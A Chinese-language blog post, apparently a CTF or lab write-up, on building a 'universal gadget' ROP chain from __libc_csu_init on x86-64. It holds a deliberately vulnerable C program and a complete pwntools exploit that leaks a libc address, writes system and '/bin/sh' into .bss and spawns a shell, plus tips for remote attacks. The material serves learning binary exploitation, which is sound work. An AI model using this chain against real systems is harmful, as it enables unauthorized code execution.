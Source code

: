 ```yaml
---
title: 通用gatget
date: 2018-08-21 18:05:20
tags:
---
```

构造通用rop
===========
```
it_array_end>
  4005b8:	4c 89 6c 24 e8       	mov    %r13,-0x18(%rsp)
  4005bd:	4c 89 74 24 f0       	mov    %r14,-0x10(%rsp)
  4005c2:	4c 89 7c 24 f8       	mov    %r15,-0x8(%rsp)
  4005c7:	48 89 5c 24 d0       	mov    %rbx,-0x30(%rsp)
  4005cc:	48 83 ec 38          	sub    $0x38,%rsp
  4005d0:	4c 29 e5             	sub    %r12,%rbp
  4005d3:	41 89 fd             	mov    %edi,%r13d
  4005d6:	49 89 f6             	mov    %rsi,%r14
  4005d9:	48 c1 fd 03          	sar    $0x3,%rbp
  4005dd:	49 89 d7             	mov    %rdx,%r15
  4005e0:	e8 1b fe ff ff       	callq  400400 <_init>
  4005e5:	48 85 ed             	test   %rbp,%rbp
  4005e8:	74 1c                	je     400606 <__libc_csu_init+0x66>
  4005ea:	31 db                	xor    %ebx,%ebx
  4005ec:	0f 1f 40 00          	nopl   0x0(%rax)
  4005f0:	4c 89 fa             	mov    %r15,%rdx
  4005f3:	4c 89 f6             	mov    %r14,%rsi
  4005f6:	44 89 ef             	mov    %r13d,%edi
  4005f9:	41 ff 14 dc          	callq  *(%r12,%rbx,8)
  4005fd:	48 83 c3 01          	add    $0x1,%rbx
  400601:	48 39 eb             	cmp    %rbp,%rbx
  400604:	75 ea                	jne    4005f0 <__libc_csu_init+0x50>
  400606:	48 8b 5c 24 08       	mov    0x8(%rsp),%rbx
  40060b:	48 8b 6c 24 10       	mov    0x10(%rsp),%rbp
  400610:	4c 8b 64 24 18       	mov    0x18(%rsp),%r12
  400615:	4c 8b 6c 24 20       	mov    0x20(%rsp),%r13
  40061a:	4c 8b 74 24 28       	mov    0x28(%rsp),%r14
  40061f:	4c 8b 7c 24 30       	mov    0x30(%rsp),%r15
  400624:	48 83 c4 38          	add    $0x38,%rsp
  400628:	c3                   	retq   
  400629:	0f 1f 80 00 00 00 00 	nopl   0x0(%rax)

0000000000400630 <__libc_csu_fini>:
  400630:	f3 c3                	repz retq 
  
```
这里我们可以用0x400606处的赋值来构造跳板然后跳到0x4005f0位置处来实现赋值。
为什么要构造2个呢。寄存器的使用顺序是rdi,rsi,rdx使用这3个寄存器就能调用我们常用的函数write和read了。

祭出来栗子吧
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```
编译命令：
```
gcc -fno-stack-protector level3.c -o level3
```
不要陷入思维定式，我们的目的只是调用system("/bin/sh")用的手段就是想办法把调用system的时候刚好/bin/sh的地址在rdi里面。至于system和/bin/sh在哪存着只要不是在用到之前被覆盖就好。

精准控制参数让它实现1.传参并执行函数，2.跳转到main函数
```
from pwn import *
elf=ELF('./level5')
#context.log_level='debug'

mov_addr=0x400606
rdx_addr=0x4005f0
got_read=elf.got["read"]
got_write=elf.got["write"]
bss_addr=0x0000000000601028
main=0x0000000000400564
p=process("./level5")
print "********run 1************************"
p.recvuntil("Hello, World\n")
payload='A'*136+p64(mov_addr)+p64(0)+p64(0)+p64(1)+p64(got_write)+p64(1)+p64(got_write)+p64(8)+p64(rdx_addr)+'\x00'*56+p64(main)
p.send(payload)
write_addr = u64(p.recv(8))
print "address"+hex(write_addr)


libc=ELF("libc6_2.27-3ubuntu1_amd64.so")
system_addr=write_addr-libc.symbols["write"]+libc.symbols["system"]
print "system_addr="+ hex(system_addr)

print "********run 2*****************************"
p.recvuntil("Hello, World\n")
payload2='A'*136+p64(mov_addr)+p64(0)+p64(0)+p64(1)+p64(got_read)+p64(0)+p64(bss_addr)+p64(16)+p64(rdx_addr)+'A'*56+p64(main)
p.send(payload2)
print hex(bss_addr)


p.send(p64(system_addr))
p.send("/bin/sh\0")

print "****************Run 3*********************"
p.recvuntil("Hello, World\n")
payload3 =  "\x00"*136
payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "\x00"*56
payload3 += p64(main)

p.send(payload3)


p.interactive()
```
一定要有耐心。可能需要好多次才会成功
这里用了3次payload第一次实现了溢出泄漏libc版本。
第二次写入数据——向bss段中写入数据，第三次调用call。
要注意的是，当我们把程序的io重定向到socket上的时候，根据网络协议，因为发送的数据包过大，read()有时会截断payload，造成payload传输不完整造成攻击失败。这时候要多试几次即可成功。如果进行远程攻击的话，需要保证ping值足够小才行（局域网）(用sendline也可以不过不能解决这个问题)


总结：传参可以直接的也可以是间接的，调用函数可以是发送一次payload也可以是发送几次payload,只要获取内存的写和执行权限一般情况下就能pwn






